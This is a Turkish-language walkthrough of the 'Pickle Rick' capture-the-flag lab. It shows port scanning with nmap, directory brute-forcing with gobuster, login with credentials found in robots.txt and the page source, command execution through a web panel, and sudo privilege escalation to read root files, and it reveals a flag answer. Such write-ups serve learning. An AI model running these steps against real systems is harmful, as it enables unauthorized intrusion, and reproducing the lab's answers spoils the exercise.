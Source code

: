 Pickle rick

Tarama
Önce makinede hangi portların açık olduğuna bakalım:

nmap -sV -sC 10.10.x.x

![1](https://github.com/user-attachments/assets/2c4b9243-26f5-41a6-8473-1a78c72fe272)



Tarayıcıdan web sitesini açın:

http://10.10.x.x


![Image](https://github.com/user-attachments/assets/282997e5-783c-4265-901d-11bc7c25fcf7)

Sayfa kaynağına bakın (Ctrl+U) ve şuna benzer bir yorum göreceksiniz:


![Image](https://github.com/user-attachments/assets/ec4771aa-09db-4dca-bfd9-7b574d38f7f8)



Gizli Dosyaları Bulma
Gobuster ile gizli dizinleri bulalım:

gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirb/common.txt



![Image](https://github.com/user-attachments/assets/28c9eee7-821a-495d-b348-5ad0141e58c0)






Bulacağınız önemli dosyalar:
• /robots.txt (içinde: Wubbalubbadubdub yazıyor)
• /login.php (giriş sayfası)



![Image](https://github.com/user-attachments/assets/f6cacbe1-87c8-4f5a-ad95-5518c8689142)




Bulduğumuz bilgilerle giriş yapalım:
• Kullanıcı Adı: R1ckRul3s
• Şifre: Wubbalubbadubdub (robots.txt'den)




![Image](https://github.com/user-attachments/assets/0842fa0a-8395-4334-96cd-105effb47085)



Komut Paneli
Giriş yaptıktan sonra komut çalıştırabileceğiniz bir panel göreceksiniz.
Basit komutlar deneyelim:




İlk Malzeme
Web sitesinin dosyalarını kontrol edelim:
ls 

Bu bize şunları gösterecek:
• Sup3rS3cretPickl3Ingred.txt (henüz okuyamıyoruz)

Şu komutla ilk malzemeyi okuyabiliriz:
bash
Copy
Download
Less /var/www/html/Sup3rS3cretPickl3Ingred.txt
İlk malzeme: mr. meeseek hair



Kullanıcı dizinlerine bakalım:


ls /home
ls /home/rick
less /home/rick/"second ingredients"

Less komutu ile açıldı




Yetki yükseltme olup olmadığını kontrol edelim:





sudo -l


Bu komut bize şunu gösterdi:


User www-data may run the following commands on Linux:
    (ALL) NOPASSWD: ALL
Yani:
✔ www-data kullanıcısı şifresiz her komutu sudo ile çalıştırabiliyor!
✔ Bu bir yetki yükseltme açığı.




sudo less /root/3rd.txt



Answer the questions below

What is the first ingredient that Rick needs?
Correct Answer
What is the second ingredient in Rick’s potion?
Correct Answer
What is the last and final ingredient?
Correct Answer
How likely are you to recommend this room to others?






